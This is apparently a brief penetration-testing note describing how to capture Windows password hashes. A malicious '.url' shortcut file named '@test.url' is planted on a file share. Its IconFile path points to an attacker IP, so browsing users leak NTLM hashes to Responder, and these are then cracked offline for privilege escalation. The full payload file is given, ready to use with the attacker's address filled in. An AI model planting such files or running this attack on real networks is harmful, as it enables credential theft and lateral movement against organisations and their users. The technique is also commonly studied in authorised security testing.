 
If we have compromised a particular user, and that user has any sort of share access, file share access.

- we can utilize this to capture more hashes via responder
- Go back and try to crack this hashes
- Then get a user with more advanced privileges

This attack requires a compromised user account or an open file share, where you can put a file in the share.

- The content of the file contains what is shown below, whereby we will replace `x.x.x.x` with our attacker IP

```html
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\x.x.x.x\%USERNAME%.icon
IconIndex=1
```

- We can then save the file as `"@test.url"` and upload it to a share (This should be done in the windows system)



